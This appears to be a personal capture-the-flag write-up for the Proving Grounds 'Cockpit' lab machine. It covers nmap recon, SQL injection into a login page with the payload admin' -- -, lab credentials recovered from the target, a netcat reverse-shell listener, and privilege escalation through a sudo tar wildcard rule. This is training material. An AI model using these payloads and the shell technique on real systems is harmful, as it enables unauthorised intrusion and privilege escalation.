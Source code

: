 ```yaml
---
date: '2024-10-11'
before : '2024-10-04'
after : '2024-10-11'
title: 'Proving Grounds : Cockpit'
categories: [ 'proving_grounds', 'pentest', 'ENG']
summary: 'Solving Cockpit machine from Proving Grounds'
thumbnail: '../contentImages/cockpit/1.png'
---
```


## 1. Recon

Starting nmap scan
```
┌──(root㉿kali)-[/home/hslee]
└─# sudo nmap $vuln -p- -T4
Nmap scan report for 192.168.157.10
Host is up (0.040s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9090/tcp open  zeus-admin

```
Then continued port 9090
```
┌──(root㉿kali)-[/home/hslee]
└─# sudo nmap $vuln -p9090 -T4 -sC
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-06 08:46 EDT

PORT     STATE SERVICE
9090/tcp open  zeus-admin
| ssl-cert: Subject: commonName=blaze/organizationName=d2737565435f491e97f49bb5b34ba02e
| Subject Alternative Name: IP Address:127.0.0.1, DNS:localhost
| Not valid before: 2024-10-06T12:41:26
|_Not valid after:  2124-09-12T12:41:26
|_ssl-date: TLS randomness does not represent time
```
And also for port 80
```
┌──(root㉿kali)-[/home/hslee]
└─# sudo nmap $vuln -p80 -sC -sV          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-06 08:48 EDT
Nmap scan report for 192.168.157.10
Host is up (0.030s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: blaze
|_http-server-header: Apache/2.4.41 (Ubuntu)
```
## 2. Initial Foothold
Visited port 80
![image](../contentImages/cockpit/1.png)

Then, visited port 9090
![image](../contentImages/cockpit/2.png)

I found login.php during fuzzing
![image](../contentImages/cockpit/3.png)

Hmm, blaze?

```
┌──(root㉿kali)-[/home/hslee]                                                                                  
└─# searchsploit blaze          

Blaze Apps - Multiple Vulnerabilities | asp/webapps/12734.txt           │
Blaze Apps 1.x - SQL Injection / HTML Injection | multiple/webapps/33995.txt 
```

There is SQL Injection vuln. I tried with simple quote:

![image](../contentImages/cockpit/4.png)
I tried simply `admin' -- -`, since there is a "like" operator. Then:

![image](../contentImages/cockpit/5.png)

base64 decoded, then I got:
```
james:canttouchhhthiss@455152
cameron:thisscanttbetouchedd@455152
```
ssh failed, so I should try port 9090.
Then I could login with james credential.

![image](../contentImages/cockpit/6.png)

There is a terminal. We can surely initialize our revshell.

## 3. Privesc

```
┌──(hlee㉿hlee)-[~/oscp/offsec/cockpit]
└─$ nc -lvnp 80    
listening on [any] 80 ...
connect to [192.168.45.223] from (UNKNOWN) [192.168.180.10] 53504
$ whoami
james
$ sudo -l
Matching Defaults entries for james on blaze:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on blaze:
    (ALL) NOPASSWD: /usr/bin/tar -czvf /tmp/backup.tar.gz *
$ 
```
As I logged in, I started with sudo -l. We see that we can use specific command from tar as root.


After googlig:

> https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa

I followed the exact same steps, only with v option attached (which should not influence the poc)

![image](../contentImages/cockpit/7.png)

---
## Source

- Proving Grounds
- Me!